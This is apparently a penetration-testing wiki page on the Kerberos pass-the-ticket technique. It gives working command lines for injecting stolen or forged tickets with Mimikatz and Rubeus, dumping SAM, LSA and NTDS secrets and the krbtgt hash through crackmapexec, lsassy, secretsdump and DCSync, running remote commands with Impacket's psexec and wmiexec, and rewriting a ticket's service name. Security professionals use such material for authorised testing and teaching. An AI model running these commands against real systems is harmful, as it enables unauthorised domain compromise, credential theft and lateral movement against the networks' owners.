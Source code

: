 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.003
---
```


# Pass the ticket

## Theory

There are ways to come across ([cached Kerberos tickets](../credentials/dumping/cached-kerberos-tickets.md)) or forge ([overpass the hash](ptk.md), [silver ticket](broken-reference) and [golden ticket](broken-reference) attacks) Kerberos tickets. A ticket can then be used to authenticate to a system using Kerberos without knowing any password. This is called [Pass the ticket](ptt.md). Another name for this is Pass the Cache (when using tickets from, or found on, UNIX-like systems).

## Practice

{% hint style="info" %}
**Tip: convert ticket to UNIX <-> Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Injecting the ticket

* On Windows systems, tools like [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus) inject the ticket in memory. Native Microsoft tools can then use the ticket just like usual.
* On UNIX-like systems, the path to the `.ccache` ticket to use has to be referenced in the environment variable `KRB5CCNAME`

{% tabs %}
{% tab title="UNIX-like" %}
Once a ticket is obtained/created, it needs to be referenced in the `KRB5CCNAME` environment variable for it to be used by others tools.

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```
{% endtab %}

{% tab title="Windows" %}
The most simple way of injecting the ticket is to supply the `/ptt` flag directly to the command used to request/create a ticket. Both [mimikatz](https://github.com/GhostPack/Rubeus) and [Rubeus](https://github.com/GhostPack/Rubeus) accept this flag.

This can also be done manually with [mimikatz](https://github.com/GhostPack/Rubeus) using [`kerberos::ptt`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/ptt) or [Rubeus](https://github.com/GhostPack/Rubeus).

```bash
# use a .kirbi file
kerberos::ptt $ticket_kirbi_file

# use a .ccache file
kerberos::ptt $ticket_ccache_file
```

```bash
Rubeus.exe ptt /ticket:"base64 | file.kirbi"
```

It is then possible to list the tickets in memory using the `klist` command.
{% endtab %}
{% endtabs %}

### Passing the ticket

* On Windows, once Kerberos tickets are injected, they can be used natively.
* On UNIX-like systems, once the `KRB5CCNAME` variable is exported, the ticket can be used by tools that support Kerberos authentication.

{% tabs %}
{% tab title="Credentials dumping" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) scripts like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) have the ability to remotely dump hashes and LSA secrets from a machine.

```bash
secretsdump.py -k $TARGET
```

[CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](broken-reference)).

```bash
crackmapexec smb $TARGETS -k --sam
crackmapexec smb $TARGETS -k --lsa
crackmapexec smb $TARGETS -k --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/mpgn/CrackMapExec) module (see [dumping credentials from lsass process memory](broken-reference)).

```bash
crackmapexec smb $TARGETS -k -M lsassy
crackmapexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -k $TARGETS
```

On Windows, once the ticket is injected, it will natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync).

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}

{% tab title="Command execution" %}
Some [Impacket](https://github.com/SecureAuthCorp/impacket) scripts (Python) enable testers to execute commands on target systems with Kerberos support.

```bash
psexec.py -k 'DOMAIN/USER@TARGET'
smbexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
atexec.py -k 'DOMAIN/USER@TARGET'
dcomexec.py -k 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) has the ability to do it on a set of targets

```bash
crackmapexec winrm $TARGETS -k -x whoami
crackmapexec smb $TARGETS -k -x whoami
```

On Windows, legitimate tools like the [sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) ([download](https://live.sysinternals.com/)) can then be used to open a cmd using that ticket.

```bash
.\PsExec.exe -accepteula \\$TARGET cmd
```
{% endtab %}
{% endtabs %}

### Modifying the SPN

When requesting access to a service, a Service Ticket is used. In contains enough information about the user to allow the destination service to decide to grant access or not, without asking the Domain Controller. These information are stored in a protected blob inside the ST called PAC (Privilege Attribute Certificate). In theory, the user requesting access can't tamper with that PAC.

Another information stored in the ST, outside of the PAC, and unprotected, called `sname`, indicates what service the ticket is destined to be used for. This information is basically the SPN (Service Principal Name) of the target service. It's split into two elements: the service class, and the hostname.

Their are multiple service classes for multiple service types (LDAP, CIFS, HTTP and so on) (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)). The problem here is that since the SPN is not protected, there are scenarios (e.g. services configured for [constrained delegations](delegations/constrained.md)) where the service class can be modified in the ticket, allowing attackers to have access to other types of services.

{% tabs %}
{% tab title="UNIX-like" %}
This technique is implemented and attempted by default in all [Impacket](https://github.com/SecureAuthCorp/impacket) scripts when doing pass-the-ticket (Impacket tries to change the service class to something else, and calls this "AnySPN").

Impacket's tgssub.py script can also be used for manual manipulation of the service name value. _At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding this script is pending._

```bash
tgssub.py -in ticket.ccache -out newticket.ccache -altservice "cifs/target"
```
{% endtab %}

{% tab title="Windows" %}
With [Rubeus](https://github.com/GhostPack/Rubeus), it can be conducted by supplying the `/altservice` flag when using the `s4u` or the `tgssub` modules and the whole SPN can be changed (service class and/or hostname).

```powershell
Rubeus.exe tgssub /altservice:cifs /ticket:"base64 | ticket.kirbi"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.secureauth.com/blog/kerberos-delegation-spns-and-more" %}
Understand the AnySPN technique
{% endembed %}
